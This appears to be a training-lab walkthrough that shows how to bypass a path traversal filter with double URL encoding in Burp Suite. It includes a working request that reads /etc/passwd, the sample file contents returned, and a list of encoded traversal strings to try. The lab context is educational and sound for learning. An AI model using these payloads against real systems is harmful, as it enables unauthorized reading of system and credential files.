

🧪 Lab: File Path Traversal (Superfluous URL-Decode Bypass)
🎯 Goal

Retrieve the contents of /etc/passwd

🛠️ Steps (Using Burp Suite Repeater)
1. Intercept the Request
Open the lab
Turn Intercept ON
Click on a product image

Captured request:

GET /image?filename=product.jpg HTTP/1.1
Host: target
2. Send to Repeater
Right-click → Send to Repeater
3. Modify the Payload

The app blocks ../ but decodes input after filtering
So we use double encoding:

GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1
Host: target
4. Send the Request
Click Send
5. Observe the Response

You will see:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

✅ Successfully retrieved /etc/passwd

💡 Why This Works (Critical Concept)
Step-by-step:
You send:
..%252f
Server decodes once:
%252f → %2f
Server decodes again:
%2f → /

👉 Final result becomes:

../
🔥 Key Vulnerability
App blocks ../ ❌
But then decodes AFTER filtering ❌
This reintroduces the traversal sequence
🧠 Hacker Insight

This is called:
👉 Double URL encoding bypass

Real-world lesson:

Always test:
%2e%2e%2f
%252e%252e%252f
Many filters fail due to wrong decode order

